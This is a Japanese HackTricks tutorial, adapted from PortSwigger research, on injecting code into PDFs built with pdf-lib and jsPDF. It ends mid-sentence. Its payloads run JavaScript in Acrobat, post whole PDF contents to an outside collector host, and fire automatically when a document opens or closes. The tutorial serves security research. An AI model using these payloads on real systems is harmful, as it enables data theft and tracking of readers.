 <details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい場合**、または**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください。
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォロー**する。
* **HackTricks**のPRを[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリに提出して、あなたのハッキングのコツを共有する。

</details>


**PDFファイル内で入力が反映されている場合、JavaScriptを実行したりPDFコンテンツを盗むためにPDFデータを注入してみることができます。**

以下の情報は[**https://portswigger.net/research/portable-data-exfiltration**](https://portswigger.net/research/portable-data-exfiltration)から取得されました。

## PDF-Lib

この時、私は[PDFLib](https://pdf-lib.js.org)を使用していました。ライブラリを使って注釈を作成し、注釈URIに閉じ括弧を注入できるか試してみました - そして成功しました！注釈コードを生成するために使用したサンプルの脆弱なコードは以下の通りです:

`...`  \
`A: {`\
`Type: 'Action',`\
`S: 'URI',`\
``URI: PDFString.of(`injection)`),``\
`}`\
`})`\
`...`

[完全なコード:](https://github.com/PortSwigger/portable-data-exfiltration/blob/main/PDF-research-samples/pdf-lib/first-injection/test.js)

注入が成功したことをどうやって知ったのでしょうか？PDFは閉じ括弧を注入しない限り正しくレンダリングされます。これは閉じ括弧が文字列から抜け出て無効なPDFコードを引き起こしていることを証明しました。PDFを壊すことは良いことですが、もちろんJavaScriptを実行できることを確認する必要がありました。レンダリングされたPDFコードを見て、出力がFlateDecodeフィルターを使用してエンコードされていることに気づきました。ブロックをデフレートするための小さなスクリプトを書き、注釈セクションの出力は次のようになりました:`<<`\
`/Type /Annot`\
`/Subtype /Link`\
`/Rect [ 50 746.89 320 711.89 ]`\
`/Border [ 0 0 2 ]`\
`/C [ 0 0 1 ]`\
`/A <<`\
`/Type /Action`\
`/S /URI`\
`/URI (injection))`\
`>>`\
`>>`

明らかに、注入文字列は閉じ括弧でテキスト境界を閉じており、既存の閉じ括弧が残っているため、PDFが正しくレンダリングされません:

![PDFをロードする際のエラーダイアログを示すスクリーンショット](https://portswigger.net/cms/images/34/f4/3ed2-article-screenshot-showing-damaged-pdf.png)

素晴らしい、PDFのレンダリングを壊すことができましたが、次は何でしょうか？JavaScriptを呼び出す注入を考え出す必要がありました - PDF注入のalert(1)です。

XSSベクトルがブラウザの解析に依存するように、PDF注入の悪用可能性もPDFレンダラーに依存することがあります。私はAcrobatをターゲットにすることから始めました。Chromeではベクトルが機能しない可能性が低いと思ったからです。2つのことに気づきました: 1) 追加の注釈アクションを注入できること、および2) 既存の閉じ括弧を修復するとPDFがレンダリングされること。いくつかの実験の後、追加の注釈アクションを注入し、JavaScriptを実行し、閉じ括弧を修復する素敵なペイロードを考え出しました:`/blah)>>/A<</S/JavaScript/JS(app.alert(1);)/Type/Action>>/>>(`

最初に括弧から抜け出し、辞書から抜け出すために>>を使用してから、新しい注釈辞書を開始します。/S/JavaScriptは注釈をJavaScriptベースにし、/JSはJavaScriptが格納されている場所です。括弧内は実際のJavaScriptです。括弧がバランスしていれば、括弧をエスケープする必要はありません。最後に、注釈のタイプを追加し、辞書を完成させ、閉じ括弧を修復します。これはとてもクールでした。JavaScriptを実行する注入を作成できましたが、それが何だというのでしょうか？JavaScriptを実行できますが、DOMにアクセスできないので、クッキーを読むことはできません。それからJamesが現れて、注入からPDFの内容を盗むことを提案しました。PDFの内容を取得する方法を探し始めました。Acrobatでは、ユーザーの操作なしにJavaScriptを使用してフォームを送信できることがわかりました！JavaScript APIの仕様を見ると、基本的な注入を修正し、PDFコードの全内容を外部サーバーにPOSTリクエストとして送信するJavaScriptを追加するのはかなり簡単でした:`/blah)>>/A<</S/JavaScript/JS(app.alert(1);`\
`this.submitForm({`\
`cURL: 'https://your-id.burpcollaborator.net',cSubmitAs: 'PDF'}))`\
`/Type/Action>>/>>(`

アラートは必要ありません。注入がJavaScriptを実行していることを証明するために追加しました。

次に、JavaScriptを使用せずにPDFの内容を盗むことを楽しんでみました。PDF仕様から、SubmitFormというアクションを使用できることがわかりました。これは以前、Burp Suiteでスキャンチェック用のPDFを構築したときに使用しました。名前が示す通りのことをします。また、辞書内のFlagsエントリを使用して、送信される内容を制御することもできます。Flags辞書キーは単一の整数値を受け入れますが、各個別の設定はバイナリビットによって制御されます。これらの設定を扱う良い方法は、ES6の新しいバイナリリテラルを使用することです。バイナリリテラルは合計14個のフラグがあるため、14ビット長である必要があります。次の例では、すべての設定が無効になっています:`0b00000000000000`

フラグを設定するには、まずそのビット位置を調べる必要があります（[PDF仕様](https://www.adobe.com/content/dam/acom/en/devnet/pdf/pdfs/PDF32000\_2008.pdf)の表237）。この場合、SubmitPDFフラグを設定したいと思います。これは9番目のビットによって制御されるため、右から9ビットを数えるだけです:`0b00000100000000`

これをJavaScriptで評価すると、10進数の値256になります。言い換えると、Flagsエントリを256に設定すると、SubmitPDFフラグが有効になり、フォームを送信するとPDFの内容が送信されるようになります。すると、以前に作成した基本的な注入を使用し、JavaScriptを呼び出す代わりにSubmitFormアクションを呼び出すように変更するだけです:`/blah)>>/A<</S/SubmitForm/Flags 256/F(`\
`https://your-id.burpcollaborator.net)`\
`/Type/Action>>/>>(`

## sPDF

次に、別のPDFライブラリ - [jsPDF](https://parall.ax/products/jspdf) - に私の方法論を適用し、それも脆弱であることがわかりました。このライブラリを悪用するのはかなり楽しかったです。なぜなら、彼らはブラウザで実行できるAPIを持っており、タイプするとリアルタイムでPDFを生成できるからです。私は、PDP-Libライブラリと同様に、注釈URL内の括弧をエスケープするのを忘れていることに気づきました。ここではurlプロパティが脆弱でした:`doc.createAnnotation({bounds:`\
`{x:0,y:10,w:200,h:200},`\
``type:'link',url:`/input`});``\
`//脆弱`

したがって、彼らのAPIを使用してPDFを生成し、urlプロパティにPDFコードを注入しました:

`var doc = new jsPDF();`\
`doc.text(20, 20, 'Hello world!');`\
`doc.addPage('a6','l');`\
`doc.createAnnotation({bounds:`\
`` {x:0,y:10,w:200,h:200},type:'link',url:` ``\
`/blah)>>/A<</S/JavaScript/JS(app.alert(1);)/Type/Action/F 0/(`\
`` `}); ``

私は辞書のtypeエントリと不要なFエントリを削除することでベクトルを縮小しました。そして、既存のものによって閉じられるぶら下がりの括弧を残しました。注入のサイズを縮小することは重要です。なぜなら、注入するWebアプリケーションが許可する文字の量が限られている可能性があるからです。`/blah)>>/A<</S/JavaScript/JS(app.alert(1)`

次に、ベクトルをさらに縮小することが可能であることがわかりました！AcrobatはURIとJavaScriptエントリを1つの注釈アクション内に許可し、JavaScriptを喜んで実行します:`/)/S/JavaScript/JS(app.alert(1)`

さらなる研究により、複数の注釈を注入することもできることがわかりました。これは、アクションを注入する代わりに注釈から抜け出し、ドキュメントのどのセクションがクリック可能かを選択するために独自のrect座標を定義できることを意味します。このテクニックを使用することで、ドキュメント全体をクリック可能にすることができました。 `/) >> >>`\
`<</Type /Annot /Subtype /Link /Rect [0.00 813.54 566.93 -298.27] /Border [0 0`\
`0] /A <</S/SubmitForm/Flags 0/F(https://your-id.burpcollaborator.net`

## インタラクションなしで注釈を実行する

これまでに示したベクトルは、注釈からアクションをアクティブにするためにクリックを必要とします。通常、Jamesは「自動的に実行できますか？」という質問をしました。PDF仕様を調べて、注釈の興味深い機能に気づきました：

「**PV**および**PI**エントリにより、開いているページと見えているページを区別できます。任意の時点で、ビューアアプリケーションでは単一のページのみが開いていると見なされますが、ページレイアウトに応じて、複数のページが見える場合があります。」

辞書にPVエントリを追加すると、注釈はAcrobatで自動的に発火します！それだけでなく、PDFドキュメントが閉じられたときにPCエントリを使用してペイロードを自動的に実行することもできます。攻撃者は、PDFを開いたときと閉じたときにあなたを追跡することができます。

注釈から自動的に実行する方法は次のとおりです:`var doc = new jsPDF();`\
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`/)``\
`>> >>`\
``<</Subtype /Screen /Rect [0 0 900 900] /AA <</PV <</S/JavaScript/JS(app.alert(1))>>/(`});``\
`doc.text(20, 20, 'Auto execute');`

PDFを閉じると、この注釈が発火します:`var doc = new jsPDF();`\
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`/) >> >>``\
``<</Subtype /Screen /Rect [0 0 900 900] /AA <</PC <</S/JavaScript/JS(app.alert(1))>>/(`});``\
`doc.text(20, 20, 'Close me');`

## Chrome

Acrobatについて多くを語りましたが、PDFium（ChromeのPDFリーダー）はどうでしょうか？Chromeは

